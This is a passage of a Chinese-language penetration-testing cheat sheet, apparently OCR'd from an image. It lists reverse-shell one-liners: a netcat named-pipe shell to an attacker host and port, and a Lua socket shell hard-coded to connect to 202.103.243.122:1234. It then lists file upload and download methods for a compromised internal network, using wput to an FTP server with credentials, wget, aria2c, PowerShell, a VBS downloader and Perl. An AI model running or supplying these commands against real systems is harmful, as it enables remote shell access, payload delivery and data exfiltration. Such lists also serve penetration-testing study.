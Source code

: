 ```
#不使用-e
mknod /tmp/backpipe p
/bin/sh 0/tmp/backpipe | nc attackerip listenport 1>/tmp/backpipe
```

lua 
```
lua -e "require('socket');require('os');t=socket.tcp();t:connect('202.103.243.122','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

### 内网文件的传输和下载   
wput 
```
wput dir_name ftp://linuxpig:123456@host.com/
```
wget 
```
wget http://site.com/1.rar -O 1.rar
```
ariac2（需安装） 
```
aria2c -o owncloud.zip https://download.owncloud.org/community/owncloud-9.0.0.tar.bz2
```
powershell
```
$p = New-Object System.Net.WebClient 
$p.DownloadFile("http://domain/file","C:%homepath%file") 
```
vbs脚本 
```
Set args = Wscript.Arguments
Url = "http://domain/file"
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", Url, False
xHttp.Send
with bStrm
.type = 1 '
.open
.write xHttp.responseBody
.savetofile " C:\%homepath%\file", 2 '
end with
```
>执行 ：cscript test.vbs

Perl 
```
#!/usr/bin/perl 
use LWP::Simple; 
getstore("http://domain/file", "file");
```
>执行：perl test.pl
